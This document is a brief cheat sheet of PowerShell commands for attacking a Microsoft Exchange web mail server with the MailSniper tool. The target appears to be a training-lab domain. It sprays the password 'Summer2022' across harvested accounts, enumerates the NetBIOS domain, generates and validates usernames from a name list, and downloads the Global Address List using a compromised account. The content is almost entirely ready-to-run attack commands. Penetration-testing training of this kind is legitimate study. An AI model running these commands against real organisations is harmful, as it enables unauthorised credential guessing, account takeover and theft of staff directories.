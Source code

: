 # Spraying passwords with MailSniper

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1

Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

---

# Enumerate NetBIOS

```bash
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```

---

# Finding valid usernames (https://gist.github.com/superkojiman/11076951)

With a list of usernames like so:
Bob Farmer
Isable Yates
John King

```bash
./namemash.py names.txt > possible.txt

Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

---

# Download Global Address List (Credentials needed)

```bash
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```

---

